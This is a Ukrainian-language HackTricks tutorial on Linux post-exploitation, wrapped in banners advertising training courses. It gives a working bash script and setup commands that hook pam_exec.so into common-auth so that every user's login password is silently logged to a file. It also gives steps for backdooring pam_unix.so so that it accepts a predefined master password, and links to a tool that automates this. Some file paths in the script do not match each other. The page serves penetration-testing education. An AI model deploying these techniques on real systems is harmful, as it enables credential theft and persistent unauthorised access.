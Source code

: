 # Післяексплуатаційна дія на Linux

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання AWS Red Team Expert (ARTE) від HackTricks**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання GCP Red Team Expert (GRTE) від HackTricks**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Підловлення паролів для входу за допомогою PAM

Давайте налаштуємо модуль PAM для реєстрації кожного пароля, який використовує кожен користувач для входу. Якщо ви не знаєте, що таке PAM, перегляньте:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Для отримання додаткових відомостей перегляньте [оригінальний пост](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Це лише краткий огляд:

**Огляд техніки:**
Модулі підключення аутентифікації (PAM) пропонують гнучкість у керуванні аутентифікацією в системах на основі Unix. Вони можуть підвищити безпеку, налаштовуючи процеси входу, але також створюють ризики у разі некоректного використання. Цей огляд наводить техніку захоплення облікових даних для входу за допомогою PAM, разом зі стратегіями пом'якшення наслідків.

**Захоплення облікових даних:**
- Створено сценарій bash під назвою `toomanysecrets.sh`, щоб реєструвати спроби входу, захоплюючи дату, ім'я користувача (`$PAM_USER`), пароль (через stdin) та IP-адресу віддаленого хоста (`$PAM_RHOST`) у файл `/var/log/toomanysecrets.log`.
- Сценарій зроблено виконуваним та інтегровано в конфігурацію PAM (`common-auth`) за допомогою модуля `pam_exec.so` з опціями для тихого запуску та викладення токену аутентифікації сценарію.
- Підхід демонструє, як скомпрометований хост Linux може бути використаний для конфіденційного реєстрування облікових даних.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Додавання задніх дверей в PAM

**Для отримання додаткової інформації перегляньте [оригінальний пост](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Це лише краткий опис:

Модуль аутентифікації, який можна підключати (PAM), є системою, що використовується в Linux для аутентифікації користувачів. Він працює на трьох основних концепціях: **ім'я користувача**, **пароль** та **сервіс**. Файли конфігурації для кожного сервісу розташовані в каталозі `/etc/pam.d/`, де спільні бібліотеки відповідають за аутентифікацію.

**Мета**: Змінити PAM для можливості аутентифікації за допомогою конкретного пароля, обходячи фактичний пароль користувача. Це особливо актуально для спільної бібліотеки `pam_unix.so`, яку використовує файл `common-auth`, що включений майже у всі сервіси для перевірки пароля.

### Кроки для модифікації `pam_unix.so`:

1. **Знайдіть директиву аутентифікації** у файлі `common-auth`:
- Рядок, що відповідає за перевірку пароля користувача, викликає `pam_unix.so`.
2. **Змініть вихідний код**:
- Додайте умовний оператор у вихідний файл `pam_unix_auth.c`, який надає доступ, якщо використовується попередньо визначений пароль, в іншому випадку продовжується звичайний процес аутентифікації.
3. **Перекомпілюйте та замініть** змінену бібліотеку `pam_unix.so` у відповідному каталозі.
4. **Тестування**:
- Доступ надається до різних сервісів (логін, ssh, sudo, su, заставка) за допомогою попередньо визначеного пароля, тоді як звичайні процеси аутентифікації залишаються незмінними.

{% hint style="info" %}
Ви можете автоматизувати цей процес за допомогою [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}
